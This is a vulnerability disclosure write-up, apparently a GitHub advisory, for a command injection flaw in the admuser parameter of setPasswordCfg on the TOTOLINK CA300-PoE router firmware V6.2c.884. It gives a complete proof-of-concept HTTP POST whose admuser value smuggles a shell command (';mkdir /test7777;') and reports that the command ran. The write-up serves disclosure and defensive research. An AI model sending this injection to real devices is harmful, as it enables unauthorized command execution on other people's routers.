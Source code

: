 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the admuser parameter in the function setPasswordCfg

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setPasswordCfg`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{'topicurl' : "setting/setPasswordCfg", "admuser":";mkdir /test7777;", "admpass":"11"}
```

![image-20230112170359673](images/3.png)

![image-20230112165037971](images/4.png)

Folder created successfully

![image-20230112170446397](images/5.png)